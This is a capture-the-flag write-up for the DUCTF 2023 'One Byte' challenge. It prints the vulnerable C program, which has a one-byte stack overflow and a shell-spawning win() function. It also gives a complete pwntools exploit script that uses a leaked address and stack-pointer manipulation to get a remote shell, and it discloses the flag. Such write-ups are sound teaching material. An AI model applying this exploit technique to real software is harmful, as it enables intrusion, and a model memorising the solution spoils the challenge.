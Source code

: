 ```yaml
---
title: Writeup - One Byte (DUCTF 2023)
date: 2023-09-04 00:00:00
tags: 
- writeup
- pwn
- ductf2023
---
```


# DUCTF 2023 - One Byte
## Description
```markdown
Here's a one byte buffer overflow!

Author: joseph

`nc 2023.ductf.dev 30018`

[onebyte] [onebyte.c]
```

## Writeup
Here's the [source code](/static/ductf-onebyte/onebyte.c) (and [binary](/static/ductf-onebyte/onebyte)):

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void init() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
}

void win() {
    system("/bin/sh");
}

int main() {
    init();

    printf("Free junk: 0x%lx\n", init);
    printf("Your turn: ");

    char buf[0x10];
    read(0, buf, 0x11);
}
```

The provided executable is a 32-bit dynamically-linked executable, with the following security measures:

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

Finding the bug and determining how to get the flag is fairly easy. There's a `win()` function present which will give a shell when called. There is a 1 byte overflow in the `main()` function. PIE is enabled, meaning we need an info leak to return to the `win()` function, but the leak is given freely as "free junk" upon startup. 

Using pwntools, the address of `win()` was calculated from the `init()` leak using the following code:

```python
# get WIN leak
init = int(p.recvline().split(b' ')[-1].strip().decode(),16)
print("init: ", hex(init))

win = init + (0x11203 - 0x111bd)
print("win: ", hex(win))
```

### Stack Overflow
The hard part was figuring out how to use the one-byte overflow to control the `$eip` register. Inspecting the program while running using GDB revealed that the one byte overflow overwrote the least significant byte of a stack address during a function `ret`, meaning we have limited control over the stack pointer. Using that, we can shift what the stack looks like so when the `$eip` register looks on the stack for the function return address, it points to an address that we specify. 

The main drawback is that the stack addresses are randomized each time the program runs, meaning you don't know where exactly your input on the stack is stored. To remediate it, you put the address on the stack as many times as possible, then overwrite the last byte with a random byte that ensures the values are aligned properly, and then you run the exploit many times until it finally meets the right requirements. 

### Solve Script
[Solve script](/static/ductf-onebyte/solve.py):

```python
from pwn import *


# initialize the binary
binary = "./onebyte"
elf = context.binary = ELF(binary, checksec=False)

gs = """
layout asm
layout reg
break main
break read
continue
"""



if args.REMOTE:
    p = remote("2023.ductf.dev", 30018)
elif args.GDB:
    p = gdb.debug(binary, gdbscript=gs)
else:
    p = elf.process()


# get WIN leak
init = int(p.recvline().split(b' ')[-1].strip().decode(),16)
print("init: ", hex(init))

win = init + (0x11203 - 0x111bd)
print("win: ", hex(win))


# exploit
payload = p32(win) + p32(win) + p32(win) + p32(win) + b'\x78'

p.sendline(payload)

p.interactive()
```

<img src="/static/ductf-onebyte/onebyte_solve.png" width="600px">

**Flag**: `DUCTF{all_1t_t4k3s_is_0n3!}`